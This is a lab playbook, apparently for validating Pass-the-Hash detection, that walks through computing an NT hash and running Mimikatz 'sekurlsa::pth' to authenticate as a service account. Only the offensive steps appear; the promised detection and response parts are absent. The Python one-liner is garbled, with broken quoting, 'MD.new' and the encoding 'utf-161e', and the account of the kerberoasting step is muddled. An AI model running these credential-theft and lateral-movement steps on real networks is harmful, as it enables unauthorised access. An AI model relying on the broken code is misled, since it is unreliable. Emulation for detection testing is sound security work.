

# Detection Validation Playbook: Pass-The-Hash (T1550.002)

This playbook documents the TTP emulation, log analysis, and response procedure for a Pass-the-Hash (PTH) attack, ensuring detection logic is validated against observed artifacts.

Field | Detail |
------|--------|
TTP | T1550.002 - Use Alternate Authentication Material: Pass-the-Hash |
Objective | Validate the detection and response capability for lateral movement using stolen NTLM hashes, specifically looking for Logon Type 9 and non-standard process chains. |
Environment	| Target Endpoints: Windows Client Systems |
Tools Used | Mimikatz, pycryptodome (Python lib), Splunk |

# 1. Offensive Steps

This section documents the precise steps taken to emulate the attacker's TTP, resulting in the generation of detectable log data.

## 1.1 Pre-requisites

- Make sure to install the required tools and libraries (Mimikatz, pycryptodome)

## 1.2 Hash Acquisition

**Goal:** Already obtained the hash file using kerberoasting. now the goal is to extract NTLM hash from the obtained hash file.

Install pycryptodome and compute NTLM hash



```bash
# Run from the compromised endpoint i.e. member01@lab.local
python -c "from Crypto.Hash import MD4; pw="Abcdefg@123"; h=MD.new(); h.update(pw.encode('utf-161e')); print(h.hexdigest())"
```

**Output:** gives the computed NT hash `ea9982bb37515115ed9365d727fb5f66`

## 1.3 Lateral Movement using NT Hash

**Goal:** Authenticate and execute a process on a windows endpoint without the plaintext password, using stolen NTLM hash.

Install Mimikatz - Refer here for Mimikatz Installation

Run the following commands:

```bash
cd "C:\Users\member01\Downloads\mimikatz_trunk\x64" #navigating to mimikatz folder
.\mimikatz.exe
privilege::debug
sekurlsa::pth /user:service_account /domain:lab.local /ntlm:ea9982bb37515115ed9365d727fb5f66
```


